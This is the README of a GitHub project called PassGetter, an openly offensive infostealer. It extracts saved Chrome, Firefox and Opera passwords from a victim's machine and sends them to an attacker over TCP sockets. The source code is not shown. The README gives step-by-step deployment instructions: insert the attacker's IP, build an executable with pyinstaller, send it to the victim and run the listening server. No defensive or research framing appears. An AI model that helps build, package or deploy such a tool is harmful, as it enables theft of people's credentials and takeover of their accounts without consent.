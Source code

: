 # PassGetter
Extract saved passwords of the browsers (i.e Chrome, Firefox, Opera) in the form of .db files and transfer them to the attacker via sockets

## How it works
![alt text](https://media.discordapp.net/attachments/733792205663371286/755806305016610842/image.png)

Basically when u send the file to the victim's computer it processes the system information (OS name) and then it searches for the path to the saved credentials of the browser (look into the code for more info) after that it extracts the data in a .db format and sends it to the attacker via TCP.

## How to make it work

Put the ip address to your machine in _main.py_  on line 82
```
host = "<Your_IP>"
```
Convert the _main.py_ to _.exe_ or a linux binary executable using pyinstaller
```
pyinstaller --path <Path to Python>\Python\Lib\site-packages\pywin32_system32 --onefile main.py
``` 
Then send it to the victim and run the _server.py_ inside the sockets folder
```
python3 server.py
```
and wait for the magic to happen

## Requirements

Make sure to install the requirements before converting it to _.exe_ or else the conversion will fail
```
pip install -r requirements.txt
```

## Credits
<ul>
<li>Firefox Pass Extraction - unode (https://github.com/unode/firefox_decrypt/blob/master/firefox_decrypt.py)</li>
<li>Chrome Pass Extraction - Stackoverflow (https://stackoverflow.com/questions/61099492/chrome-80-password-file-decryption-in-python)</li>
